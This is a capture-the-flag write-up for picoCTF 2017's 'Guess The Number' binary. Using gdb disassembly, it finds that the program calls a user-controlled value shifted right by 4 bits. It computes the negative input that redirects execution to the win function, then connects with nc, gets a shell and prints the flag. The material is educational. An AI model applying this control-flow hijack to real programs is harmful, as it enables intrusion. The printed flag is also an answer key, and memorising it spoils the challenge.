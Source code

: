 **Challenge name:** Guess The Number  
**Description:** Just a simple number-guessing game. How hard could it be? Binary Source. Connect on shell2017.picoctf.com:44930.  
**Hint:**  
What is the program doing with your input number?  
strtol checks for overflow, but it does allow negative numbers...  
**File(s) provided:**  
- guess_num (32-bit ELF)
- guess_num.c (source code)
----
# Step 0: Recon
It looks like the main function accepts a string, transforms it into a number, shifts it right, then tries to jump to the resulting number. The ```win``` function is present again as a target for us to reach.

# Step 1: Setting breakpoint
```gdb
# gdb guess_num -q
Reading symbols from guess_num...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x08048553 <+0>:	lea    ecx,[esp+0x4]
   0x08048557 <+4>:	and    esp,0xfffffff0
   0x0804855a <+7>:	push   DWORD PTR [ecx-0x4]
   0x0804855d <+10>:	push   ebp
   0x0804855e <+11>:	mov    ebp,esp
   0x08048560 <+13>:	push   ecx
   0x08048561 <+14>:	sub    esp,0x34
   0x08048564 <+17>:	mov    DWORD PTR [ebp-0x2c],0x0
   0x0804856b <+24>:	mov    ecx,0x0
   0x08048570 <+29>:	mov    eax,0x1c
   0x08048575 <+34>:	and    eax,0xfffffffc
   0x08048578 <+37>:	mov    edx,eax
   0x0804857a <+39>:	mov    eax,0x0
   0x0804857f <+44>:	mov    DWORD PTR [ebp+eax*1-0x28],ecx
   0x08048583 <+48>:	add    eax,0x4
   0x08048586 <+51>:	cmp    eax,edx
   0x08048588 <+53>:	jb     0x804857f <main+44>
   0x0804858a <+55>:	mov    eax,ds:0x8049a00
   0x0804858f <+60>:	sub    esp,0x8
   0x08048592 <+63>:	push   0x0
   0x08048594 <+65>:	push   eax
   0x08048595 <+66>:	call   0x80483b0 <setbuf@plt>
   0x0804859a <+71>:	add    esp,0x10
   0x0804859d <+74>:	sub    esp,0xc
   0x080485a0 <+77>:	push   0x80486ec
   0x080485a5 <+82>:	call   0x80483d0 <puts@plt>
   0x080485aa <+87>:	add    esp,0x10
   0x080485ad <+90>:	sub    esp,0xc
   0x080485b0 <+93>:	push   0x8048714
   0x080485b5 <+98>:	call   0x80483d0 <puts@plt>
   0x080485ba <+103>:	add    esp,0x10
   0x080485bd <+106>:	sub    esp,0xc
   0x080485c0 <+109>:	push   0x8048740
   0x080485c5 <+114>:	call   0x80483d0 <puts@plt>
   0x080485ca <+119>:	add    esp,0x10
   0x080485cd <+122>:	sub    esp,0xc
   0x080485d0 <+125>:	push   0x8048761
   0x080485d5 <+130>:	call   0x80483c0 <printf@plt>
   0x080485da <+135>:	add    esp,0x10
   0x080485dd <+138>:	sub    esp,0x8
   0x080485e0 <+141>:	lea    eax,[ebp-0x2c]
   0x080485e3 <+144>:	push   eax
---Type <return> to continue, or q <return> to quit---
   0x080485e4 <+145>:	push   0x8048775
   0x080485e9 <+150>:	call   0x8048410 <__isoc99_scanf@plt>
   0x080485ee <+155>:	add    esp,0x10
   0x080485f1 <+158>:	sub    esp,0x4
   0x080485f4 <+161>:	push   0xa
   0x080485f6 <+163>:	push   0x0
   0x080485f8 <+165>:	lea    eax,[ebp-0x2c]
   0x080485fb <+168>:	push   eax
   0x080485fc <+169>:	call   0x8048420 <strtol@plt>
   0x08048601 <+174>:	add    esp,0x10
   0x08048604 <+177>:	mov    DWORD PTR [ebp-0xc],eax
   0x08048607 <+180>:	sub    esp,0x8
   0x0804860a <+183>:	push   DWORD PTR [ebp-0xc]
   0x0804860d <+186>:	push   0x804877c
   0x08048612 <+191>:	call   0x80483c0 <printf@plt>
   0x08048617 <+196>:	add    esp,0x10
   0x0804861a <+199>:	shr    DWORD PTR [ebp-0xc],0x4
   0x0804861e <+203>:	mov    eax,DWORD PTR [ebp-0xc]
   0x08048621 <+206>:	call   eax
   0x08048623 <+208>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048626 <+211>:	leave  
   0x08048627 <+212>:	lea    esp,[ecx-0x4]
   0x0804862a <+215>:	ret    
End of assembler dump.
(gdb) break *0x08048621
Breakpoint 1 at 0x8048621
```
# Step 2: Find target address:
```gdb
(gdb) disas win
Dump of assembler code for function win:
   0x0804852b <+0>:	push   ebp
...
```
# Step 3: Calculate input
The program works like this:  
1) Accept a decimal number (let's call this ```input```)  
2) Which is be stored as bytes (let's call this ```temp```)  
3) This value is then shift right by 4 bits (let's call this ```target```) and is then jumped to  

Working backwards makes the most sense in this situation. Clearly our target is ```0x0804852b```.  
This means temp should be ```0x804852b0``` (shifted left 4 bits).
Finally, we need to know what decimal number to enter to get this ```temp``` value in memory. 

We can use gdb to place that value on the stack and just read it out in decimal form:
```gdb
(gdb) x/x $esp
0xffffcbf8:	0xffffcc48
(gdb) set *0xffffcbf8 = 0x804852b0
(gdb) print *0xffffcbf8
$1 = -2142743888
```
Our input has to be ```-2142743888```.
# Step 4: Get flag
``` bash
# nc shell2017.picoctf.com 44930
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: -2142743888
You entered -2142743888. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ ls
flag.txt
guess_num
xinetd_wrapper.sh
$ cat flag.txt	
55b6b9591d1781061f859a010a8fe0ef
```

